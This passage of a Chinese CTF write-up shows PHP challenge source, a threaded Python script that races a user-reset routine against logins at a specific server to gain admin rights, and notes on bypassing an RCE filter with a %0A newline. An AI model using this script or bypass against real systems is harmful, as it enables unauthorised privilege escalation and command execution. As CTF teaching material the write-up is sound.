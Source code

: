 ```php
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`user` (name,pass) VALUES (?,?)");
    $stmt->bind_param("ss",$user,md5($_POST['password']));
    $stmt->execute();
    $stmt->close();
    //判断用户权限时会查询priv表，如果为不为TRUE则是管理员权限
    $stmt = $mysqli->prepare("INSERT INTO gctf09.`priv` (name,notadmin) VALUES (?,TRUE)");
    $stmt->bind_param("s",$user);
    $stmt->execute();
    $stmt->close();
    $mysqli->close();
    die("修改成功");
}
$mysqli->close();
?>
```

在重置用户的时候，用户表中的相应记录是先删除后添加，于是产生条件竞争，只要打好这个时间差就好。

```python
import thread
import requests
import time

def register(i):
    print 'Register Thread', i, ' Start'
    param = {'method': 'reset'}
    payload = {'name': '9ee1bb39dceeece1', 'password': 'as9en'}
    cookies = {'PHPSESSID': 'jk4f54scqb3uroubqi87tfoaq7'}
    r = requests.post('http://218.2.197.242:18009/', params = param, \
        data = payload, cookies = cookies)
    print r.text

def getflag(i):
    print 'GetFlag Thread', i, ' Start'
    param = {'method': 'login'}
    payload = {'name': '9ee1bb39dceeece1', 'password': 'as9en'}
    cookies = {'PHPSESSID': 'jk4f54scqb3uroubqi87tfoaq7'}
    r = requests.post('http://218.2.197.242:18009/login.php', params = param, \
        data = payload, cookies = cookies)
    print r.text

if __name__ == '__main__':
    for i in range(100):
        thread.start_new_thread(register, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        thread.start_new_thread(getflag, (i, ))
        time.sleep(0.2)

```

不要问我为啥那么多getflag……服务器太卡

##### RCE绕过#####

一个有简单过滤的RCE，用%0A换行符即可绕过。

##### Java序列化#####

这题是复盘时候拿出来的，主要开头想法不对，一直在想办法反序列化相应对象。结果最后十六进制修改了id对应的值就拿到Flag了……QAQ

